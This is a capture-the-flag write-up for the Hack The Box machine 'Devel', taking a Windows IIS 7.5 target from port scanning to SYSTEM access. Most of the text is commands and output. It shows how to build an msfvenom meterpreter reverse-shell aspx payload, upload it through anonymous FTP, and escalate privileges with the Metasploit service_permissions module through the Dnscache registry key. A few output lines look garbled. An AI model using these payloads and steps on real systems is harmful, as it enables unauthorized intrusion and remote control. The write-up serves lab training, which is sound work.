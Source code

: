 ```yaml
---
layout: post
title: Hack The Box - Devel
categories:
  - hackthebox
slug: hack-box-legacy
tags:
  - windows
---
```

## Challenge description

[https://app.hackthebox.com/machines/Devel](https://app.hackthebox.com/machines/Devel)

This VM is an easy Windows machine

## Reconnaissance / Enumeration

### Port scanning and service identification

```
$ rustscan -a $ip -r 1-65535 --ulimit 5000 -- -A -sC -Pn
[...]
PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  01:06AM       <DIR>          aspnet_client
| 03-17-17  04:37PM                  689 iisstart.htm
|_03-17-17  04:37PM               184946 welcome.png
80/tcp open  http    syn-ack Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

We have an IIS 7.5 FTP and Web server

### Web Enumeration

There's not much here to discover. The site is an IIS default web page.

### FTP Enumeration

FTP server is accessible anonymously. Even better, this FTP server is giving us write permissions on the site root folder.

## Exploitation && Foothold

Let's create a meterpreter payload as an aspx file and upload it

```
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=4444 -f aspx > h3xshell.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of aspx file: 2713 bytes

$ ftp $ip
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:h3x): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> put h3xshell.aspx
local: h3xshell.aspx remote: h3xshell.aspx
229 Entering Extended Passive Mode (|||49211|)
150 Opening ASCII mode data connection.
100% |****************************************************************************************************************|  2748       23.60 MiB/s    --:-- ETA
226 Transfer complete.
2748 bytes sent in 00:00 (143.79 KiB/s)
```

Now that our payload is in place, launch a metasploit handler, browse the payload and wait for the shell:

```
$ msfconsole

msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set rhosts 10.10.10.5
rhosts => 10.10.10.5
msf6 exploit(multi/handler) > set lhost tun0
lhost => tun0
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.5:4444 
[*] Sending stage (175174 bytes) to 10.10.10.5
Meterpreter session 1 opened (10.10.14.5:4444 -> 10.10.10.5:49277 ) at 2022-01-19 04:11:20 +0000

meterpreter > shell
Process 516 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>whoami
whoami
iis apppool\web
```

## Privilege Escalation

There are 2 services vulnerable to a registry edit attack. Dnscache and RpcEptMapper. There is a way to create a performance counter pointing to a malicious DLL.

The exploit is well described [here](https://itm4n.github.io/windows-registry-rpceptmapper-eop/)

There's a metasploit module that we can use to exploit the service: exploit/windows/local/service_permissions

```
meterpreter > bg
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > use exploit/windows/local/service_permissions
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/service_permissions) > set session 1
session => 1
msf6 exploit(windows/local/service_permissions) > set lhost tun0
lhost => tun0
msf6 exploit(windows/local/service_permissions) > run

[*] Started reverse TCP handler on 10.10.14.5:4444
[*] Trying to add a new service...
[*] Trying to find weak permissions in existing services..
[+] [Dnscache] Created registry key: HKLM\System\CurrentControlSet\Services\Dnscache\Performance
[*] Sending stage (175174 bytes) to 10.10.10.5
[*] Meterpreter session 4 opened (10.10.14.5:4444 -> 10.10.10.5:49271 ) at 2022-01-19 02:02:05 +0000

meterpreter > shell
Process 728 created.
Channel 2 created.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
e69af0e4f443de7e36876fda4ec7644f
C:\Windows\system32>whoami
whoami
nt authority\system

c:\Users\babis\Desktop>more user.txt.txt
more user.txt.txt
(redacted)

C:\Windows\system32>more e69af0e4f443de7e36876fda4ec7644fc:\users\administrator\desktop\root.txt
more c:\users\administrator\desktop\root.txt
(redacted)
```

Thanks for reading <3

h3x
